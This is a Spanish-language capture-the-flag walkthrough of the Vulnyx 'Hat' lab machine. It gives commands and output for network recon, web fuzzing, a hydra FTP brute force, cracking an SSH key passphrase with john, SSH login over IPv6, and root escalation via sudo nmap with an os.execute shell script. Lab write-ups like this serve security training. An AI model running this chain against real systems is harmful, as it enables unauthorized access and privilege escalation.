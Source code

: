 # Vulnyx-Hat

## Identificación de la IP en la red
```bash
arp-scan -I eth0 --localnet
# (IP-victima)  08:00:27:fd:2a:fe       PCS Systemtechnik GmbH
```

## Escaneo de Puertos
```bash
nmap -p 22,80,65535 -sS -sC -sV  -n -Pn (IP-victima) -oN nmap
# 22/tcp    filtrado    ssh
# 80/tcp    abierto      http    Apache httpd 2.4.38 ((Debian))
# 65535/tcp abierto      ftp     pyftpdlib 1.5.4
```

Puerto 22: filtrado. Puerto 80: servidor Apache. Haremos fuzzing al puerto 80 para encontrar vulnerabilidades.

## Fuzzing al Puerto 80
```bash
dirb http://(IP-victima)
# http://(IP-victima)/logs/
# http://(IP-victima)/php-scripts/

dirb http://(IP-victima)/logs/
# http://(IP-victima)/logs/ 

wfuzz -c --hc=404  -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://(IP-victima)/FUZZ.php
# file

wfuzz -c --hc=404  -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://(IP-victima)/logs/FUZZ.log
# vsftpd
```

Dentro de "/logs/vsftpd.log" encontramos información relevante sobre un usuario "admin_ftp". Intentamos realizar fuerza bruta en el servicio FTP.

## Fuerza Bruta en FTP
```bash
hydra -l admin_ftp -P /usr/share/wordlists/rockyou.txt  ftp://(IP-victima):65535
# host:(IP-victima)   usuario: admin_ftp   contraseña: c****y
```

Dentro del FTP encontramos archivos, incluyendo una nota y un id_rsa. Descargamos los archivos y encontramos un posible usuario "sysadmin" en la nota y un id_rsa en el otro archivo.

## Descifrado del id_rsa
```bash
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
# Contraseña: i**********f
chmod 600 id_rsa
```

Tenemos el usuario y la contraseña. Intentamos acceder al puerto SSH que previamente estaba filtrado, esta vez usando IPv6.

## Acceso SSH con IPv6
```bash
ping6 -c2 -I eth0 ff02::1
# 64 bytes from fe80::**********************0: icmp_seq=1 ttl=64 time=1.09 ms
nmap -6 -p- -sV  fe80::**********************0:
```

Encontramos el puerto 22 abierto en IPv6. Intentamos acceder con el usuario y la contraseña.

## Acceso SSH con IPv6
```bash
ssh -6 -i id_rsa cromiphi@fe80::***********************0:
# Contraseña: i*********f
```

Estamos dentro con el usuario "cromiphi". Ahora intentaremos escalar privilegios.

## Escalada de Privilegios
```bash
sudo -l
# (root) NOPASSWD: /usr/bin/nmap
```

Podemos ejecutar nmap como root. Consultamos GTFObins para encontrar una forma de obtener una shell como root.

## Obtención de Shell como Root
```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

whoami
# root
```

Ahora somos root (:D)
